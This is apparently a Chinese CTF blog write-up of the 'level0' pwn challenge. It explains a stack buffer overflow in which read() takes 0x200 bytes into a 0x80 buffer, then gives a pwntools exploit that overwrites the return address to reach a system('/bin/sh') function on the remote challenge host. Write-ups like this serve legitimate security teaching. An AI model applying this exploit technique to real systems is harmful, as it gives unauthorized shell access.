 ```yaml
---
layout: post
title:  level0
date:   2020-08-18 00:01:01 +0300
image:  2020-08-18-young.jpg
tags:   [ctf,pwn,攻防世界]
---
```


先运行文件，看到会让我们输入内容，

![]({{site.baseurl}}/img/2020-08-18-run.jpg)

ida64打开文件，查看主函数

```assembly
int __cdecl main(int argc, const char **argv, const char **envp)
{
  write(1, "Hello, World\n", 0xDuLL);
  return vulnerable_function();
}
```

输入应该是在vulnerable_function()函数中，打开查看代码

```assembly
ssize_t vulnerable_function()
{
  char buf; // [rsp+0h] [rbp-80h]

  return read(0, &buf, 0x200uLL);
}
```

变量buf的大小是0x80

然后通过字符串找到了system函数

```assembly
int callsystem()
{
  return system("/bin/sh");
}
```

所以只要让栈返回到这个函数即可。

编写exp

```assembly
from pwn import *

io = remote("220.249.52.133",45728)
payload = "A" * (0x80 + 8) + p64(0x00400596)
io.sendline(payload)
io.interactive()
```

![]({{site.baseurl}}/img/2020-08-18-result.jpg)